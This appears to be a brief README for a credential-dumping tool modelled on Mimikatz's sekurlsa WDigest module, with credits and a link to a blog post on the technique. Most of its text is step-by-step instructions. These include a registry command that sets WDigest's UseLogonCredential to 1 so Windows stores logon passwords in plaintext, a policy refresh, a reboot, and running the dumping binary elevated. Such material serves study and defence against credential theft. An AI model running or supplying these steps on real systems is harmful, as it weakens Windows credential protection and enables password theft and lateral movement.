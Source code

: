 ## Forcing WDigest to Store Credentials in Plaintext

Run the following in your elevated prompt before executing the compiled binary:

- reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
- gpupdate /force
- restart your machine and login with your credentials
- Execute sekurlsa_wdigest.exe on elevated prompt.

## Check out

Adam Chester's blog on [Exploring Mimikatz - Part 1 - WDigest](https://blog.xpnsec.com/exploring-mimikatz-part-1/)

## Kudos :)

3gstudent for [sekurlsa-wdigest.cpp](https://github.com/3gstudent/Homework-of-C-Language/blob/master/sekurlsa-wdigest.cpp)
